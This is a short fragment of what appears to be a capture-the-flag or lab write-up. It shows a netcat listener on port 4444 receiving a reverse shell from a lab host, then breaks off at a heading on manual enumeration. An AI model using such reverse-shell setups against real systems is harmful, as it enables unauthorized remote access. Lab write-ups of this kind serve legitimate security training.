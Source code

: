 ### Let setup listener !! Here wo got connection
```bash
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.17.120.99] from (UNKNOWN) [10.10.14.239] 35024
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### Let enumerate manually




